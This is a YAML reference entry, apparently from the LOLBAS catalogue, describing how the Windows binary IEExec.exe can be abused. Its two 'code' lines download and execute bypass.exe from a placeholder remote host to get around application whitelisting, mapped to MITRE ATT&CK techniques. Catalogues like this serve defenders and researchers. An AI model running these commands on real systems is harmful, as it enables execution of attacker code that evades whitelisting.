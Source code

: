 ```yaml
---
name: Ieexec.exe
description: The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.
functions:
  execute:
    - description: Downloads and executes bypass.exe from the remote server.
      code: ieexec.exe http://x.x.x.x:8080/bypass.exe
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Download and run attacker code from remote location
  download:
    - description: Downloads and executes bypass.exe from the remote server.
      code: ieexec.exe http://x.x.x.x:8080/bypass.exe
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Download and run attacker code from remote location
resources:
    - resource: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
fullpath:
    - path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
    - path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
detection:
  - IOC: 
acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```


